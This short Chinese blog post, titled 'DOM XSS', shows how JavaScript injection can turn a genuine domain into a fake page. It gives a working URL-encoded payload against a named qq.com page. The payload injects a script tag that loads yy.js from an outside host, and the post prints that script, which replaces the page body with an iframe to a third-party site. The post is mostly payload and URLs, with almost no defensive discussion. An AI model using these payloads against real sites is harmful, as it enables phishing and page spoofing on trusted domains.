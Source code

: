 ```yaml
---
layout: post
title: "DOM XSS"
date: 2016-08-03 11:04:09 +0800
comments: true
categories: security
---
```

因为JavaScript脚本功能强大，我们可以利用它来更改整个页面内容，所以我们就可以制造出利用真的目标域名的假页面

<!--more-->

http://app.2008.qq.com/ppzj/view_dh.php?page=%22%3E%3Cscript%20src%3D%22http%3A%2F%2Fxxxx.com%2Fyy.js%22%3E%3C%2Fscript%3E

![](http://jason5.cn/images/xss-dom.png)

page解码后为

```javascript
"><script src="http://xxxx.com/yy.js"></script>
```

yy.js的内容

```javascript
function window.onload(){
	parent.document.title="XSS test";
    parent.document.bgColor="black";
    parent.document.fgColor="white";
    parent.document.body.innerHTML="<iframe src='http://www.qqdx.albbz.cn/' width='100%' height='100%'>";
}
```

原始页面内容
http://app.2008.qq.com/ppzj/view_dh.php?page=1

![](http://jason5.cn/images/xss-dom1.png)
